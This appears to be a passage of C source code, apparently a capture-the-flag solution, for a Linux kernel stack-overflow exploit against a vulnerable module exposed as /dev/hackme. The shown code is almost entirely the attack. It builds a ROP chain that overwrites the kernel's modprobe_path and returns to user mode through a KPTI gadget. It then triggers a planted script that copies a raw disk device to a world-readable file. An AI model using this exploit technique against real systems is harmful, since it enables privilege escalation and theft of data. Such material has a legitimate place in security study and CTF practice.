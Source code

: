 ```c
        "mov tf+32, ss;");
    tf.rip = 0x100000;
    tf.rsp -= 8;
    printf("[*] Reg saved cs = %llx, ss = %llx, flags = %llx, user_sp = %llx\n", tf.cs, tf.ss, tf.eflags, tf.rsp);
}

void get_flag(void){
    puts("[*] Returned to userland, setting up for fake modprobe");

    system("echo '#!/bin/sh\ncp /dev/sda /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[*] Run unknown file");
    system("/tmp/dummy");

    puts("[*] Hopefully flag is readable");
    system("cat /tmp/flag");

    exit(0);
}


void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = canary;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rax_ret; // return address
    payload[off++] = 0x782f706d742f; // rax <- "/tmp/x"
    payload[off++] = pop_rbx_r12_rbp_ret;
    payload[off++] = modprobe_path; // rbx <- modprobe_path
    payload[off++] = 0x0; // dummy r12
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = write_ptr_rbx_rax_pop2_ret; // modprobe_path <- "/tmp/x"
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = kpti_gadget; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)get_flag;
    payload[off++] = tf.cs;
    payload[off++] = tf.eflags;
    payload[off++] = tf.rsp;
    payload[off++] = tf.ss;

    puts("[*] Prepared payload to overwrite modprobe_path");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}


int main()
{
        global_fd = open("/dev/hackme", O_RDWR);
        printf("[+] open ko, return %d \n", global_fd);
```